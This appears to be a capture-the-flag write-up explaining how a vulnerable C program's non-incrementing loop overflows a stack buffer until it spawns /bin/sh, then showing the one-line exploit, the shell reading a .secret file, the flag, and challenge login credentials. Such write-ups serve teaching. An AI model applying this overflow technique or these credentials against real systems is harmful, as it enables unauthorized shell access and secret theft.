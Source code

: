# HackingWeek CTF 2015: Exploit 2

**Category:** exploit |
**Points:** 3870 |
**Solves:** 42 | 
**Description:**

> Connectez-vous en tant que <code>guest</code> (mot de passe: <code>shu1eKoo</code>) sur la machine <code>37.187.22.21</code>.<br>
> Vous trouverez la clef de validation cachée dans le fichier <code>/home/exploit02/.secret</code>.
>
> ```
> $> ssh guest@37.187.22.21
> ```

___

## Write-up

This task is an exploit task.  
We are given a shell on a remote server.  
The source code is also given :

```C
#include <stdio.h>
#include <stdlib.h>

int
main (int argc, char **argv)
{
  if (argc < 3)
    {
      fprintf (stderr, "error: missing argument ! Usage: ./vulnerable 10 AAA\n");
      exit (EXIT_FAILURE);
    }

  int size = atoi(argv[1]);
  float fsize = ((float) size) / 100;
  if (size > 1024)
    {
      fprintf (stderr, "error: cannot go more than 1024 !\n");
      exit (EXIT_FAILURE);
    }
  else if (size < 0)
    {
      fprintf (stderr, "error: cannot be a negative number !\n");
      exit (EXIT_FAILURE);
    }

  float x;
  int i = 0;
  char buffer[1024];

  for (x = 0; x < fsize; x + 0.01)
    buffer[i++] = argv[2][0];

  for (i = 0; i < size; i++)
    printf(" %c", buffer[i]);
  fputs("\n", stdout);

  if (x > 80000000000000000000000000000000000000.0)
    system ("/bin/sh");

  return EXIT_SUCCESS;
}
```		

This one is a bit trickier, because it is rather a mistake than an actual
vulnerability. You may not have noticed, but the first for loop has `x + 0.01`
instead of `x += 0.01`.  
At first sight, we thought it was a compiler feature, but it was not :  
The program puts `argv[1][0]` in buffer for ever... until it overwrites other
variables.  
What happens here is that we will overwrite variables.  
In the memory, stack, which contains every local variables, looks like this :
```
+--------+---+-------+------+---+----+----+
| buffer | x | fsize | size | i | bp | ip |
+--------+---+-------+------+---+----+----+
```
(You can figure this out by using a disassembler)

We can see that the loop will write buffer, then x, then fsize.  
When you overwrite fsize, the loop will end, since the condition will be
fullfilled.  
All we need is the hexadecimal representation of a float over 8000... that can
be written with the same char 4 times.  
There are different ways to find it. We did it by trying common values
(eg: 0xFF, 0x80, 0x7F)  
`./vulnerable 1 $'\x7f'`
>  
>  
> sh-4.2$ `whoami; cat ../.secret`  
> exploit02  
> cai0Aexee3

**Flag**: cai0Aexee3
